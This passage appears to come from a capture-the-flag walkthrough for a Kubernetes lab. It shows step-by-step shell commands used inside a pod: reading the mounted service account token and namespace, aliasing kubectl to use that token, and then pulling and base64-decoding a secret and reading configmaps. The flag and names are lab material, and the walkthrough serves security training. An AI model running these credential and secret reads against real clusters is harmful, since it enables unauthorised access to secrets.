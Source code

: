     ```shell
    cat /run/secrets/kubernetes.io/serviceaccount/namespace
    ```

34. It looks like we're in the `joeys-vent` namespace. We have kubectl - let's set an alias for kubectl to use the service account token mounted in the pod.  Our alias is going to include `-n joeys-vent` in it, because the alias set up will read that same namespace file that we just read.

    ```shell
    tokendir="/run/secrets/kubernetes.io/serviceaccount"
    alias kubectl="kubectl --token=$(cat $tokendir/token) \
    --server="https://kubernetes.default.svc.cluster.local" \
    --certificate-authority=$tokendir/ca.crt \
    -n $(cat $tokendir/namespace)" 
    ```

35. Get the secret:

    ```shell
    kubectl get secret joeys-flag-floppy-disk
    ```

36. Just get the data part of the secret:

    ```shell
    kubectl get secret joeys-flag-floppy-disk -o yaml | \
    egrep -A 1 '^data:'
    ```

37. Decode the "flag" item in that secret:

    ```shell
    kubectl get secret joeys-flag-floppy-disk -o yaml | \
     egrep -A 1 '^data:' | grep flag | awk '{print $2}' | base64 -d
    ```

38. You'll find the secret contents look something like this:

    ```
    joeys-floppy-disk-FLAG-b6e3f5a1-62dc-47e5-9a4d-6182f38812b8
    ```

39. The HINT.txt file also said to find a Redis server without port scanning. Enumerate for a while if you like.  Eventually, you might decide to look for configmaps, which are used to send non-secret configuration information into a container:

    ```shell
    kubectl get configmaps
    ```

40. Notice that there's a juicy one called ```scoring-gibsons``` - go read it.  This time, we'll get our kubectl output as json and parse it with jq, which has helpfully been installed in the container image:

    ```shell
    kubectl get configmaps scoring-gibsons -o json | jq .data
    ```
